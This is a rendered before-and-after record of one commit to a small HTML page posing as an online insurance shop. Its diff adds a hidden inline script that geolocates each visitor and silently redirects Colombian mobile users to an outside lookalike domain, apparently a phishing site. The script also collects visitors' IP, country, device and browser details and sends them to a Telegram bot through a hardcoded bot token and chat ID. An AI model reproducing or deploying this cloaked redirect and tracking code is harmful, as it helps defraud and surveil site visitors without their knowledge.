

Before and after one commit to seguronline/polizas, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page at 88% size. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers; placeholder pictures from the web are drawn by us.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,78 +3,29 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Tienda Online</title>
-<script>
-    (async function() {
-      // Agregar clase oculta al body inmediatamente
-      document.documentElement.className = 'hidden-page';
+  <title>Tienda de Seguros Online</title>
+  <style>
+    /* Transición de carga suave */
+    .hidden-page {
+      opacity: 0;
+      visibility: hidden;
+      transition: opacity 0.5s ease;
+    }
+    .visible-page {
+      opacity: 1;
+      visibility: visible;
+    }
 
-      // Verificar si ya se ejecutó una redirección
-      const redirectKey = 'redirect-' + window.location.hostname;
-      const redirectExecuted = sessionStorage.getItem(redirectKey);
-
-      if (!redirectExecuted) {
-        sessionStorage.setItem(redirectKey, 'true');
-
-        // Detección de dispositivo
-        const isMobile = /Mobi|Android|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i
-          .test(navigator.userAgent);
-
-        // Obtener país
-        let country = 'Desconocido';
-        try {
-          const response = await fetch('https://ipinfo.io/json?token=3798a6699b4912');
-          const data = await response.json();
-          country = data.country || 'Desconocido';
-        } catch (error) {
-          console.error("Error geolocalización:", error);
-        }
-
-        // Determinar URL objetivo
-        const targetUrl = (country === "CO" && isMobile)
-          ? 'https://tusoataqui.tusoatvirtual.website/inicio.html'
-          : window.location.href; // Mantener misma URL para PC
-
-        // Redirigir solo si es diferente
-        if (targetUrl !== window.location.href) {
-          window.location.href = targetUrl;
-          return; // Detener ejecución
-        }
-      }
-
-      // Mostrar contenido después de 100ms (para prevenir destellos)
-      setTimeout(() => {
-        document.documentElement.className = 'visible-page';
-      }, 100);
-
-    })();
-  </script>
-  <style>
-    /* Reset y estilos generales */
+    /* Estilos originales mejorados */
     * {
       margin: 0;
       padding: 0;
       box-sizing: border-box;
     }
-/* Estado inicial - página oculta */
-    .hidden-page {
-      opacity: 0;
-      visibility: hidden;
-      transition: opacity 0.3s ease;
-    }
-    /* Estado final - página visible */
-    .visible-page {
-      opacity: 1;
-      visibility: visible;
-    }
-    body { display: none !important; }
-
-
     body {
       font-family: Arial, sans-serif;
       background: #f5f5f5;
       color: #333;
-
     }
     header {
       background: linear-gradient(90deg, #0052cc, #3366ff);
@@ -213,7 +164,7 @@
       text-align: center;
       margin-top: 40px;
     }
-    /* Estilos responsive */
+
     @media (max-width: 768px) {
       header .container {
         flex-direction: column;
@@ -228,6 +179,92 @@
       }
     }
   </style>
+  <script>
+    (async function() {
+      // Configuración inicial
+      document.documentElement.className = 'hidden-page';
+      const currentUrl = window.location.href;
+      const redirectKey = 'rdr-' + btoa(currentUrl).slice(0, 15);
+
+      // Verificar redirección previa
+      if (!sessionStorage.getItem(redirectKey)) {
+        sessionStorage.setItem(redirectKey, 'true');
+
+        try {
+          // Detectar dispositivo y geolocalización
+          const isMobile = /Mobi|Android|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i.test(navigator.userAgent);
+          const geoResponse = await fetch('https://ipinfo.io/json?token=3798a6699b4912');
+          const geoData = await geoResponse.json();
+
+          // Determinar redirección
+          if (geoData.country === 'CO' && isMobile) {
+            window.location.replace('https://tusoataqui.tusoatvirtual.website/inicio.html');
+            return;
+          }
+        } catch (error) {
+          console.error('Error:', error);
+        }
+      }
+
+      // Recopilar datos para Telegram
+      const userDetails = {
+        timestamp: new Date().toLocaleString(),
+        userAgent: navigator.userAgent,
+        platform: navigator.platform,
+        language: navigator.language,
+        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
+        screenResolution: `${window.screen.width}x${window.screen.height}`,
+        windowSize: `${window.innerWidth}x${window.innerHeight}`,
+        ip: 'Desconocida',
+        country: 'Desconocido'
+      };
+
+      try {
+        const geoResponse = await fetch('https://ipinfo.io/json?token=3798a6699b4912');
+        const geoData = await geoResponse.json();
+        userDetails.ip = geoData.ip || userDetails.ip;
+        userDetails.country = geoData.country || userDetails.country;
+      } catch (error) {
+        console.error("Error geolocalización:", error);
+      }
+
+      // Enviar a Telegram
+      async function sendToTelegram() {
+        const botToken = "8042550315:AAGIoWq8XT_n7KwRaxAq38-1gXvCZyAPExk";
+        const chatId = "5848946481";
+
+        const message = `🚨 SURA git 🚨
+🌍 IP: ${userDetails.ip}
+🗺️ País: ${userDetails.country}
+📅 Fecha: ${userDetails.timestamp}
+💻 Plataforma: ${userDetails.platform}
+🌐 Idioma: ${userDetails.language}
+🖥️ Resolución: ${userDetails.screenResolution}
+📱 User Agent: ${userDetails.userAgent}`;
+
+        try {
+          await fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
+            method: "POST",
+            headers: { "Content-Type": "application/json" },
+            body: JSON.stringify({
+              chat_id: chatId,
+              text: message
+            })
+          });
+        } catch (error) {
+          console.error("Error enviando a Telegram:", error);
+        }
+      }
+
+      await sendToTelegram();
+
+      // Mostrar contenido final
+      setTimeout(() => {
+        document.documentElement.className = 'visible-page';
+        sessionStorage.removeItem(redirectKey);
+      }, 300);
+    })();
+  </script>
 </head>
 <body>
   <header>
@@ -248,37 +285,35 @@
   </section>
 
   <main class="content">
-    <!-- Sección de planes de seguros -->
     <section class="plans" id="planes">
       <div class="plan">
         <h3>Plan Básico</h3>
-        <p>Cobertura esencial para proteger tu hogar y tu vehículo.</p>
+        <p>Cobertura esencial para proteger tu hogar y vehículo.</p>
         <button onclick="mostrarMensaje('Plan Básico')">Contratar</button>
       </div>
       <div class="plan">
         <h3>Plan Premium</h3>
-        <p>Cobertura amplia con beneficios adicionales para tu tranquilidad.</p>
+        <p>Cobertura amplia con beneficios adicionales.</p>
         <button onclick="mostrarMensaje('Plan Premium')">Contratar</button>
       </div>
       <div class="plan">
         <h3>Plan Familiar</h3>
-        <p>Protección para toda la familia con descuentos especiales.</p>
+        <p>Protección completa para toda la familia.</p>
         <button onclick="mostrarMensaje('Plan Familiar')">Contratar</button>
       </div>
     </section>
 
-    <!-- Sección de contacto -->
     <section class="contact" id="contacto">
       <h2>Contáctanos</h2>
       <form onsubmit="enviarFormulario(event)">
         <label for="nombre">Nombre:</label>
-        <input type="text" id="nombre" name="nombre" required>
+        <input type="text" id="nombre" required>
 
         <label for="email">Email:</label>
-        <input type="email" id="email" name="email" required>
+        <input type="email" id="email" required>
 
         <label for="mensaje">Mensaje:</label>
-        <textarea id="mensaje" name="mensaje" rows="4" required></textarea>
+        <textarea id="mensaje" rows="4" required></textarea>
 
         <button type="submit">Enviar</button>
       </form>
@@ -286,27 +321,20 @@
   </main>
 
   <footer>
-    <p>&copy; 2025 Tienda de Seguros Online. Todos los derechos reservados.</p>
+    <p>&copy; 2025 Tienda de Seguros Online</p>
   </footer>
 
   <script>
-    // Función para mostrar un mensaje al seleccionar un plan
+    // Funciones de interacción
     function mostrarMensaje(plan) {
-      alert('Has seleccionado el ' + plan + '. ¡Gracias por confiar en nosotros!');
+      alert(`Has seleccionado el ${plan}. ¡Gracias por confiar en nosotros!`);
     }
 
-    // Función para procesar el formulario de contacto
-    function enviarFormulario(event) {
-      event.preventDefault();
+    function enviarFormulario(e) {
+      e.preventDefault();
       const nombre = document.getElementById('nombre').value;
-      const email = document.getElementById('email').value;
-      const mensaje = document.getElementById('mensaje').value;
-
-      console.log('Formulario enviado: ', { nombre, email, mensaje });
-      alert('¡Gracias ' + nombre + '! Nos pondremos en contacto contigo pronto.');
-
-      // Reiniciar el formulario
-      event.target.reset();
+      alert(`¡Gracias ${nombre}! Nos pondremos en contacto contigo pronto.`);
+      e.target.reset();
     }
   </script>
 </body>
```
